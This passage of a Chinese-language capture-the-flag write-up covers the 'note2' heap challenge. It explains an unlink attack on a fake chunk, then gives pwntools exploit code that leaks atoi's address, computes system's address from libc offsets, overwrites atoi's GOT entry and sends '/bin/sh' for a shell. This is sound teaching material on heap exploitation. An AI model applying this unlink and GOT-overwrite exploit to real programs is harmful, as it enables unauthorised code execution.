 該覆蓋主要是爲了釋放chunk2的時候可以後向合併（合併低地址），對chunk0中虛擬構造的chunk進行unlink。即將要執行的操作爲unlink(ptr[0])，同時我們所構造的fakebk和fakefd滿足如下約束

```c
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \
```

unlink成功執行，會導致ptr[0]所存儲的地址變爲fakebk，即ptr-0x18。

#### 獲取system地址

代碼如下

```python
# overwrite the chunk0(which is ptr[0]) with got atoi
atoi_got = note2.got['atoi']
content = 'a' * 0x18 + p64(atoi_got)
editnote(0, 1, content)
# get the aoti addr
shownote(0)

sh.recvuntil('is ')
atoi_addr = sh.recvuntil('\n', drop=True)
print atoi_addr
atoi_addr = u64(atoi_addr.ljust(8, '\x00'))
print 'leak atoi addr: ' + hex(atoi_addr)

# get system addr
atoi_offest = libc.symbols['atoi']
libcbase = atoi_addr - atoi_offest
system_offest = libc.symbols['system']
system_addr = libcbase + system_offest

print 'leak system addr: ', hex(system_addr)
```

我們修改ptr[0]的內容爲 ptr 的地址-0x18，所以當我們再次編輯 note0 時，可以覆蓋ptr[0]的內容。這裏我們將其覆蓋爲atoi的地址。
這樣的話，如果我們查看note 0的內容，其實查看的就是atoi的地址。

之後我們根據 libc 中對應的偏移計算出 system 的地址。

#### 修改atoi got

```python
# overwrite the atoi got with systemaddr
content = p64(system_addr)
editnote(0, 1, content)
```

由於此時 ptr[0] 的地址 got 表的地址，所以我們可以直接修改該 note，覆蓋爲 system 地址。

#### get shell

```python
# get shell
sh.recvuntil('option--->>')
sh.sendline('/bin/sh')
sh.interactive()
```
